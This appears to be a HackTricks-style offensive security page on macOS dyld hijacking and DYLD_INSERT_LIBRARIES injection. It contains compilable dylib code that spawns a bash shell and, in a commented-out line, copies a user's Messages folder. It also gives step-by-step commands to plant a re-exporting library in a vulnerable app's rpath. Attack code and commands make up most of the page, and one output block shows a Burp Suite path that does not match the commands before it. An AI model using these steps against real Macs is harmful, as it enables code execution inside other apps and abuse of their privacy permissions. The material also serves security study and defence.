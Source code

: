 # macOS Dyld Hijacking & DYLD_INSERT_LIBRARIES

{{#include ../../../../banners/hacktricks-training.md}}

## DYLD_INSERT_LIBRARIES Basic example

**Library to inject** to execute a shell:

```c
// gcc -dynamiclib -o inject.dylib inject.c

#include <syslog.h>
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
__attribute__((constructor))

void myconstructor(int argc, const char **argv)
{
    syslog(LOG_ERR, "[+] dylib injected in %s\n", argv[0]);
    printf("[+] dylib injected in %s\n", argv[0]);
    execv("/bin/bash", 0);
    //system("cp -r ~/Library/Messages/ /tmp/Messages/");
}
```

Binary to attack:

```c
// gcc hello.c -o hello
#include <stdio.h>

int main()
{
    printf("Hello, World!\n");
    return 0;
}
```

Injection:

```bash
DYLD_INSERT_LIBRARIES=inject.dylib ./hello
```

## Dyld Hijacking Example

The targeted vulnerable binary is `/Applications/VulnDyld.app/Contents/Resources/lib/binary`.

{{#tabs}}
{{#tab name="entitlements"}}

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash">codesign -dv --entitlements :- "/Applications/VulnDyld.app/Contents/Resources/lib/binary"
<strong>[...]com.apple.security.cs.disable-library-validation[...]
</strong></code></pre>

{{#endtab}}

{{#tab name="LC_RPATH"}}

```bash
# Check where are the @rpath locations
otool -l "/Applications/VulnDyld.app/Contents/Resources/lib/binary" | grep LC_RPATH -A 2
          cmd LC_RPATH
      cmdsize 32
         path @loader_path/. (offset 12)
--
          cmd LC_RPATH
      cmdsize 32
         path @loader_path/../lib2 (offset 12)
```

{{#endtab}}

{{#tab name="@rpath"}}

```bash
# Check librareis loaded using @rapth and the used versions
otool -l "/Applications/VulnDyld.app/Contents/Resources/lib/binary" | grep "@rpath" -A 3
         name @rpath/lib.dylib (offset 24)
   time stamp 2 Thu Jan  1 01:00:02 1970
      current version 1.0.0
compatibility version 1.0.0
# Check the versions
```

{{#endtab}}
{{#endtabs}}

With the previous info we know that it's **not checking the signature of the loaded libraries** and it's **trying to load a library from**:

- `/Applications/VulnDyld.app/Contents/Resources/lib/lib.dylib`
- `/Applications/VulnDyld.app/Contents/Resources/lib2/lib.dylib`

However, the first one doesn't exist:

```bash
pwd
/Applications/VulnDyld.app

find ./ -name lib.dylib
./Contents/Resources/lib2/lib.dylib
```

So, it's possible to hijack it! Create a library that **executes some arbitrary code and exports the same functionalities** as the legit library by reexporting it. And remember to compile it with the expected versions:

```objectivec:lib.m
#import <Foundation/Foundation.h>

__attribute__((constructor))
void custom(int argc, const char **argv) {
    NSLog(@"[+] dylib hijacked in %s", argv[0]);
}
```

Compile it:

```bash
gcc -dynamiclib -current_version 1.0 -compatibility_version 1.0 -framework Foundation /tmp/lib.m -Wl,-reexport_library,"/Applications/VulnDyld.app/Contents/Resources/lib2/lib.dylib" -o "/tmp/lib.dylib"
# Note the versions and the reexport
```

The reexport path created in the library is relative to the loader, lets change it for an absolute path to the library to export:

```bash
#Check relative
otool -l /tmp/lib.dylib| grep REEXPORT -A 2
         cmd LC_REEXPORT_DYLIB
         cmdsize 48
         name @rpath/libjli.dylib (offset 24)

#Change the location of the library absolute to absolute path
install_name_tool -change @rpath/lib.dylib "/Applications/VulnDyld.app/Contents/Resources/lib2/lib.dylib" /tmp/lib.dylib

# Check again
otool -l /tmp/lib.dylib| grep REEXPORT -A 2
          cmd LC_REEXPORT_DYLIB
      cmdsize 128
         name /Applications/Burp Suite Professional.app/Contents/Resources/jre.bundle/Contents/Home/lib/libjli.dylib (offset 24)
```

Finally just copy it to the **hijacked location**:

```bash
cp lib.dylib "/Applications/VulnDyld.app/Contents/Resources/lib/lib.dylib"
```

And **execute** the binary and check the **library was loaded**:

<pre class="language-context"><code class="lang-context">"/Applications/VulnDyld.app/Contents/Resources/lib/binary"
<strong>2023-05-15 15:20:36.677 binary[78809:21797902] [+] dylib hijacked in /Applications/VulnDyld.app/Contents/Resources/lib/binary
</strong>Usage: [...]
</code></pre>

> [!NOTE]
> A nice writeup about how to abuse this vulnerability to abuse the camera permissions of telegram can be found in [https://danrevah.github.io/2023/05/15/CVE-2023-26818-Bypass-TCC-with-Telegram/](https://danrevah.github.io/2023/05/15/CVE-2023-26818-Bypass-TCC-with-Telegram/)

## Bigger Scale

If you are planing on trying to inject libraries in unexpected binaries you could check the event messages to find out when the library is loaded inside a process (in this case remove the printf and the `/bin/bash` execution).

```bash
sudo log stream --style syslog --predicate 'eventMessage CONTAINS[c] "[+] dylib"'
```

{{#include ../../../../banners/hacktricks-training.md}}


